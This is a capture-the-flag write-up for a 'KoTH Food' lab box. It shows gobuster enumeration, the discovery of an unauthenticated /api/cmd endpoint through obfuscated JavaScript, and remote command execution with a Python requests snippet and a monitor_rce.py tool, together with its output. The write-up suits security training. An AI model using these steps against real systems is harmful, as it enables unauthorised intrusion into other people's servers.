 # KoTH Food CTF

## Monitor

When navigating to `$TARGET:15065` in a web browser, you are presented with an "Under Construction" message with seemingly nothing that can be done. If you enumerate this location, however, you will discover an endpoint `/monitor` that you can navigate to. 

Gobuster Command:

```bash
gobuster dir -u http://$TARGET:15065 -w <wordlist> -t 50
```

Output:

```bash
===============================================================
/monitor              (Status: 301) [Size: 0] [--> monitor/]
===============================================================
```

Upon arriving at the `/monitor` page, you are presented with an input box that will ping a given IP address.  Putting in `127.0.0.1`, we can see the output of the command is rendered in a `<div>` element. The output looks exactly like what you would expect if you ran the `ping` command in your terminal, indicating we may be able to execute arbitrary commands on the target. When we try to append command line commands to the IP address, however we get an `IP address invalid` message returned to us. It looks like this input box is sanitized or filtered in some way to prevent RCE. 

While RCE via the input may not be likely, it does not mean this page is not vulnerable. The next step is to look at the page source and the network traffic when we send a legitimate request. When looking at the page source, we find `main.js` imported. Pulling down `main.js` we find it obfuscated; we will look more at this later. Observing the network traffic, we see the request is sent to `cmd` with the body being a terminal command (`ping -c 3 <ipAddress>`). This brings us closer to confirming RCE; all we have to do now is find out the full address of the endpoint this request is being sent to.

Looking at the obfuscated JavaScript code pulled down, we find an array at the top with base64 encoded values, and oddly named functions. Base64 decoding the values in the top array, we find they are a mix of dictionary keys and other values. Scrolling down and scanning the rest of the code, we find a `POST` request to an `api/cmd` endpoint. This is what we are interested in. This `api/cmd` endpoint is where the `ping -c 3 <ipAddress>` command was being sent when we submitted the form on `/monitor`. 

To look for the `api/cmd` endpoint, we can check two likely locations: `/monitor/api/cmd` and `/api/cmd`. When we `POST` to `/monitor/api/cmd` we get a `404` status code returned. When we `POST` to `/api/cmd` we get a `200` status code returned. The endpoint is, therefore, located at `http://$TARGET/api/cmd`. 

Now that we have an endpoint to target, we can begin testing commands:

```python
import requests
target = "http://<targetip>:15065/api/cmd"
resp = requests.post(target, "whoami".encode())
```

The output of the above command reveals the username of the user hosting the site, and confirms the ability to remotely execute arbitrary code on the target machine. To make this less manual, I created [monitor_rce](monitor_rce.py). This will automatically format and execute a command given by the user and print the output to `STDOUT`.  Using eith the manual method or [monitor_rce](monitor_rce.py), it is possible to upload a reverse shell, gain a meterpreter session, etc.

One we have a foothold on the target, we can begin to explore and search for a flag. 

### Monitor_RCE

To successfully execute commands using [monitor_rce](monitor_rce.py), you must pass in the command as a string and give the program the target IP address and port number. An example of how to run the program is below.

Command:

```bash
./monitor_rce.py $TARGET 15065 -c "ls -la ~"
```

The above command will list all the contents of the user's home directory.

Output:

```bash
============================================================
[i] Target IP: 10.10.96.190
[i] Target Port: 15065
[i] Command: "ls -la ~"
============================================================

============================================================
                           Output                           
============================================================
total 7900
drwxr-xr-x 6 bread bread    4096 Apr  6  2020 .
drwxr-xr-x 7 root  root     4096 Mar 28  2020 ..
-rw------- 1 bread bread       5 Apr  6  2020 .bash_history
-rw-r--r-- 1 bread bread     220 Mar 20  2020 .bash_logout
-rw-r--r-- 1 bread bread    3771 Mar 20  2020 .bashrc
drwx------ 2 bread bread    4096 Mar 20  2020 .cache
----r--r-- 1 bread bread      38 Mar 28  2020 flag
drwx------ 3 bread bread    4096 Mar 20  2020 .gnupg
drwxrwxr-x 3 bread bread    4096 Mar 20  2020 .local
-rwxrwxr-x 1 bread bread 8037916 Apr  6  2020 main
-rw-rw-r-- 1 bread bread    1513 Apr  6  2020 main.go
-rw-r--r-- 1 bread bread     825 Mar 28  2020 .profile
drwxrwxr-x 3 bread bread    4096 Apr  6  2020 resources

============================================================
[+] command successfully executed
```